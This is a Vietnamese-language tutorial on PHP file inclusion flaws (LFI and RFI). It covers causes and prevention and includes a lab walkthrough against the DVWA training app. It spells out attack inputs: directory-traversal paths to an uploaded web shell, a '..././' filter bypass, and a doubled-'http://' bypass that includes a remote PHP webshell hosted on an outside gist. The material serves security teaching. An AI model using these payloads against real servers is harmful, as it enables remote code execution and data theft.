# **File Inclusion**

## **Lỗ hổng file inclusion là gì?**

**FIle Inclusion** cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web, nó là một **biến thể** của **Path Traversal** .

Điều này xảy ra là do trong code php web , lập trình viên đã sử dụng các lệnh `include`, `require`, `include_once`, `require _ once` , các lệnh này cho phép việc file hiện tại có thể gọi ra 1 file khác. Các hàm Inclusion nhận tham số truyền vào là **một đường dẫn tới File** hoặc một **URL**  

Dấu hiệu để nhận biết rằng trang web có thể tấn công file inclusion là đường link thường có dạng `php?page=`,hoặc `php?file=` .... Để biết trang web có bị lỗi này hay không ta chỉ cần thêm 1 dấu ' vào đường link , ví dụ như là `php?page='`. Và trên trình duyệt sẽ có thông báo dạng



Nguyên nhân gây ra lỗi này là khi sử dụng các lệnh trên, lập trình viên lại gọi các file cần mở thông qua biến. Các biến này hoặc chưa được khởi tạo, hoặc do người dùng quyết định.

File Inclusion có 2 kiểu tấn công phổ biến, đó là **Local File Inclusion** và **Remote File Inclusion**

- **Local file inclustion** (LFI) là kĩ thuật đọc file trong hệ thống, lỗi này xảy ra thường sẽ khiến website bị lộ các thông tin nhảy cảm như là `passwd`, `php.ini`, `access_log`, `config.php`…

- **Remote File Inclusion** còn được viết tắt là RFI cho phép kẻ tấn công nhúng một mã độc hại được tuỳ chỉnh trên trang web hoặc máy chủ bằng cách sử dụng các tập lệnh . RFI còn cho phép tải lên một tệp nằm trên máy chủ khác được chuyển đến dưới dạng hàm PHP ( `include`, `include_once`, `require`, or `require_once`). Đây là một lỗ hổng rất phổ biến do việc sử dụng hàm `include` rất nhiều và cũng là thiết đặt mặc định của server như là set `allow_url_include = On`. Lỗ hổng này sẽ khiến kẻ tấn công có thể thực thi các lệnh từ xa trên máy chủ web , xoá các phần của web và lấy dữ liệu thông tin của trang web.

## **Các phương pháp ngăn ngừa lỗ hổng file inclusion**

- Xác thực đầu vào chặt hơn
- Không bao gồm các trình phân tách thư mục như "/"
- Sử dụng danh sách trắng cho các file extension được cho phép
- Set `allow_url_fopen` và `allow_url_include` thành `off` để giới hạn việc có thể gọi các tệp tin từ xa
- Cập nhập phiên bản PHP mới nhất
- Cấu hình PHP để không sử dụng register_globals

## **Lab: Khai thác lỗ hổng File Inclusion trên DVWA**

1. Mức độ **Low-level-security**

   Sau khi set độ khó là *Low* trên DVWA , chúng ta sẽ có giao diện như thế này :
   
   

   Ở đây chúng ta thấy `?page=` sẽ trỏ đến 1 file có tồn tại trên máy chủ , và trong bài này là trỏ đến *file1.php*

   Thử kiểm tra *View Source* của mức độ này thì thấy không có bất cứ sự kiểm tra đầu vào nào. Giá trị `$_GET['page']` có thể bị hacker thao túng để truyền vào bất kỳ giá trị gì. Đây là **Untrusted Data**, không quan trọng là định dạng file gì. Miễn là nội dung có chứa PHP Tag `<?php ... ?>`, PHP Interpreter sẽ coi đó là PHP Script và thực thi.

   
   
   Do đó, ta sẽ lợi dụng lỗ hổng File Upload trên DVWA để upload 1 file *web_shell.php* lên server, sau đó chỉ việc include đường dẫn tới file *web_shell.php* vừa mới upload lên server.
 
   

   Như vậy, vị trí của *web_shell.php* nằm ở thư mục : `/hackable/uploads/`

   Nhưng trước khi vào được  `/hackable/uploads/web_shell.php` , chúng ta cần nhập đủ các thư mục trước đó để đưa chúng ta trở lại thư mục gốc. Chúng ta cần phải sử dụng `../` để đại diện cho các thư mục đằng trước.

   ```bash
   ../../hackable/uploads/web_shell.php
   ```
   
   Và chúng ta thu được kết quả:

   
   
   Do web_shell này được kích hoạt thông qua biến page nên khi nhập lệnh trong ô input kia sẽ không thực thi được, cho nên ta phải truyền lệnh từ ngoài vào ngay trên URL

   

   

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   

   Hàm str_replace() sẽ xóa tất cả các giá trị được gán như là `http://` ; `https://`; và các ký tự như : `../`, `..\` (cho phép người dùng thoát khỏi thư mục). và thay thế bằng giá trị `""`; sau đó nó sẽ trả lại trang ban đầu cho người dùng 

   - **Khai thác RFI**

     Chúng ta sẽ chèn thêm 1 giá trị `http://` vào giữa giá trị `http://` , điều này sẽ khiến hàm str_replace() đọc và thay giá trị `http://` ở giữa thành giá trị `""` và trả lại trang ban đầu không có giá trị `http://`. Với `https://` cũng tương tự.

     ```bash
     htthttps://ps://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
     ```
     
     Và chúng ta thu được kết quả:

     

   - **Còn về khai thác LFI thì sao?**

     Cũng tương tự RFI, chúng ta thực hiện như sau, mỗi cặp `../` chúng ta chuyển thành `..././`

     ```bash
     ..././..././hackable/uploads/web_shell.php
     ```

     Và chúng ta cũng thu được kết quả:

     

3. Mức độ **High-level-security**

   Kiểm tra *View Source*:

   

   Ở đây đã kiểm tra giá trị đầu vào có phải là chuỗi bắt đầu bằng **file** hoặc đúng bằng **include.php**. Nếu không thỏa mãn điều kiện đó thì sẽ báo lỗi **ERROR: File not found!** và exit.

   Vì vậy chúng ta thử xem 1 tập tin *file4.php* (đúng với giá trị được kiểm tra xem thế nào)

   

   Như thế là ở mức độ **High** vẫn có kẽ hở.

   


